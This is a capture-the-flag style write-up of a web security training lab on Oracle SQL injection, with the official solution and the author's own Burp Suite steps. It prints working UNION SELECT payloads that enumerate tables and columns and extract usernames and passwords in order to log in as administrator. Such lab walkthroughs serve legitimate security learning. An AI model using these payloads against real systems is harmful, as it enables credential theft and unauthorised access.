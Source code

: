 ![lab title](image.png)

Lab: SQL injection attack, listing the database contents on Oracle

Solution: 
    
    1. Use Burp Suite to intercept and modify the request that sets the product category filter.

    2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:
    '+UNION+SELECT+'abc','def'+FROM+dual--

    3. Use the following payload to retrieve the list of tables in the database:
    '+UNION+SELECT+table_name,NULL+FROM+all_tables--
    Find the name of the table containing user credentials.

    4. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
    Find the names of the columns containing usernames and passwords.

    5. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
    Find the password for the administrator user, and use it to log in.

Step to solve: [Before solving the lab use foxyproxy extension and add Burp Suite proxy]

    1. Open Burp Suite and access the LAB.
    2. Connect the proxy and turn on intercept.
    3. Now select a catergory and reload the page then send the request to the repeater and turn off intercept.
    4. We have to retrieve tables, and to do that use this query
        'union+select+table_name,+null+from+all_tables+--
        send it and copy the url. 
        and find a user type like this "USERS_IADGQO"
    5. Now to find columns of that table use this query 
        'union+select+column_name,+null+from+all_tab_columns+where+table_name='USERS_IADGQO'+--
        send it and copy the url. 
    6. Using that user and password column we will log in as an administrator by using this query
        'union+select+USERNAME_BGYBYO,+PASSWORD_JFBHXE+from+USERS_IADGQO+--
        send it!
        then copy the url and paste it in a new tab, you will get administrator username and password. Log in with that information and it's done!!

![Solved](image-1.png)

